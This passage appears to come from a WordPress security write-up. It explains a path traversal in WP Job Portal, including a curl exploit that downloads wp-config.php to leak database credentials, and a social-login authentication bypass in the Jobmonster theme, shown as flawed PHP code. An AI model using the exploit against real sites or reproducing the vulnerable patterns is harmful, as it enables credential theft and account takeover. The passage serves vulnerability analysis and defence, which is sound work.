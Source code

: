 
### Unauthenticated Arbitrary File Download / Path Traversal (WP Job Portal <= 2.3.2)

Another task, **downloadcustomfile**, allowed visitors to download **any file on disk** via path traversal.  The vulnerable sink is located in `modules/customfield/model.php::downloadCustomUploadedFile()`:

```php
$file = $path . '/' . $file_name;
...
echo $wp_filesystem->get_contents($file); // raw file output
```

`$file_name` is attacker-controlled and concatenated **without sanitisation**.  Again, the only gate is a **CSRF nonce** that can be fetched from the resume page.

#### Exploitation

```bash
curl -G https://victim.com/wp-admin/admin-post.php \
     --data-urlencode 'task=downloadcustomfile' \
     --data-urlencode '_wpnonce=<nonce>' \
     --data-urlencode 'upload_for=resume' \
     --data-urlencode 'entity_id=1' \
     --data-urlencode 'file_name=../../../wp-config.php'
```
The server responds with the contents of `wp-config.php`, leaking DB credentials and auth keys.

## Unauthenticated account takeover via Social Login AJAX fallback (Jobmonster Theme <= 4.7.9)

Many themes/plugins ship "social login" helpers exposed via admin-ajax.php. If an unauthenticated AJAX action (wp_ajax_nopriv_...) trusts client-supplied identifiers when provider data is missing and then calls wp_set_auth_cookie(), this becomes a full authentication bypass.

Typical flawed pattern (simplified)

```php
public function check_login() {
    // ... request parsing ...
    switch ($_POST['using']) {
        case 'fb':     /* set $user_email from verified Facebook token */ break;
        case 'google': /* set $user_email from verified Google token   */ break;
        // other providers ...
        default: /* unsupported/missing provider – execution continues */ break;
    }

    // FALLBACK: trust POSTed "id" as email if provider data missing
    $user_email = !empty($user_email)
        ? $user_email
        : (!empty($_POST['id']) ? esc_attr($_POST['id']) : '');

    if (empty($user_email)) {
        wp_send_json(['status' => 'not_user']);
    }

    $user = get_user_by('email', $user_email);
    if ($user) {
        wp_set_auth_cookie($user->ID, true); // 🔥 logs requester in as that user
        wp_send_json(['status' => 'success', 'message' => 'Login successfully.']);
    }
    wp_send_json(['status' => 'not_user']);
}
// add_action('wp_ajax_nopriv_<social_login_action>', [$this, 'check_login']);
```
